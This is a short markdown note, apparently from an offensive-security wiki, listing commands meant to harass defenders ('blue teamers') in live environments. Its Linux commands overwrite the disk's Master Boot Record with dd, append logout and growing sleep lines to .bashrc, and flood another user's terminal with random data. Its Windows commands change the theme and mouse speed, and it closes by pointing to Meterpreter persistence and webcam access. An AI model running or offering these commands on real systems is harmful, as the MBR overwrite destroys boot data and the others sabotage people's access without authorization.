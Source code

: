 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Record with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/<pts number> # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 
